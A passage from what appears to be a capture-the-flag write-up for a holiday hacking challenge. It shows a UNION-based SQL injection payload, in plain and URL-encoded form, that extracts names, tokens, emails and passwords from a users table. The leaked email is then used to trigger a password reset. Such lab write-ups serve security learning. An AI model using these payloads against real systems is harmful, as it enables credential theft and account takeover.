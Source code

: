 Now with that, I can go even further.

`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT name from users where id = 1)b JOIN (select token from users where id = 1)c JOIN (SELECT email from users where id = 1)d JOIN (SELECT password from users where id = 1)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

Which becomes:

`UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%20name%20from%20users%20where%20id%20=%201)b%20JOIN%20(select%20token%20from%20users%20where%20id%20=%201)c%20JOIN%20(SELECT%20email%20from%20users%20where%20id%20=%201)d%20JOIN%20(SELECT%20password%20from%20users%20where%20id%20=%201)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g`

And now I get even more info, such as the email address (in this case, it was `root@localhost`) and the token if it ever appears! In hindsight, I probably could have guessed the email before, but even still it wouldn't help anything because I'd need to have access to the token to do anything of interest.

So...let's try and generate a token.

I can access the page at `https://staging.jackfrosttower.com/forgotpass` and enter the email I obtained from the SQL injection, `root@localhost`:

![Resetting the password](img/obj12-4/img4.png)

And it worked!
